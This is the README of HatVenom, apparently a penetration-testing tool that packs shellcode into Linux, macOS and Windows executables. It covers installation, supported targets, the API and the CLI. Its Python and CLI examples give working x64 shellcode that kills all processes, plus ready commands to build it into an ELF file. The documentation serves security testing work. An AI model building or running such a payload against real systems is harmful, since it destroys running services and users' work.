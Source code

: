 # HatVenom

<p>
    <a href="https://entysec.netlify.app">
        <img src="https://img.shields.io/badge/developer-EntySec-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom">
        <img src="https://img.shields.io/badge/language-Python-3572a5.svg">
    </a>
    <a href="https://github.com/EntySec/HatVenom/stargazers">
        <img src="https://img.shields.io/github/stars/EntySec/HatVenom?color=yellow">
    </a>
</p>

HatVenom is a HatSploit native powerful payload generation tool that provides support for all common platforms and architectures.

## Features

* Support for most common executable formats like `elf`, `macho`, `pe`, `dll`.
* Support for most common architectures like `x64`, `x86`, `aarch64`, `armle`, `mipsle`, `mipsbe`.
* Ability to modify shellcode by changing pre-defined offsets.

## Installation

```shell
pip3 install git+https://github.com/EntySec/HatVenom
```

## Supported targets

| Format    | **x86** | **x64** | **armle** | **armbe** | **aarch64** | **mipsle** | **mipsbe** | **mips64le** | **mips64be** |
|-----------|---------|---------|-----------|-----------|-------------|------------|------------|--------------|--------------|
| **elf**   | yes | yes | yes | no | yes | yes | yes | no | no |
| **macho** | no | yes | no | no | no | no | no | no | no |
| **pe**    | yes | yes | no | no | no | no | no | no | no |
| **dll**   | yes | yes | no | no | no | no | no | no | no |

* **elf** - Unix Executable & Linkable Format.
* **macho** - macOS / Apple iOS Mach-O executable format.
* **pe** - Windows Portable Executable format.
* **dll** - Windows Dynamic Link Library format.

## Basic functions

There are all HatVenom basic functions that can be used to generate payload, covert data, assemble code or inject shellcode.

* `generate(file_format, arch, shellcode)` - Generates payload for specified target and with specified shellcode.
* `generate_to(file_format, arch, shellcode, filename='a.out')` - Generates payload for specified target and with specified shellcode and saves it to the specified file.

## Generating payload

It's very easy to generate payload for various targets in HatVenom. Let's generate a simple payload that kills all processes for Linux and save it to `a.out`.

### Examples

```python
from hatvenom import HatVenom

shellcode = (
    "\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05"
)

hatvenom = HatVenom()
hatvenom.generate_to('elf', 'x64', shellcode)
```

## HatVenom CLI

HatVenom also has their own command line interface that can be invoked by executing `hatvenom` command:

```
usage: hatvenom [-h] [-f FORMAT] [-a ARCH] [-s SHELLCODE] [-o OUTPUT]

HatVenom is a HatSploit native powerful payload generation and shellcode
injection tool that provides support for common platforms and architectures.

optional arguments:
  -h, --help            show this help message and exit
  -f FORMAT, --format FORMAT
                        Platform to generate for.
  -a ARCH, --arch ARCH  Architecture to generate for.
  -s SHELLCODE, --shellcode SHELLCODE
                        Shellcode to inject.
  -o OUTPUT, --output OUTPUT
                        File to output generated payload.
```

### Examples

Let's generate a simple payload that kills all processes for Linux and save it to `a.out`.

```shell
hatvenom --format elf --arch x64 --shellcode "\x6a\x3e\x58\x6a\xff\x5f\x6a\x09\x5e\x0f\x05"
```
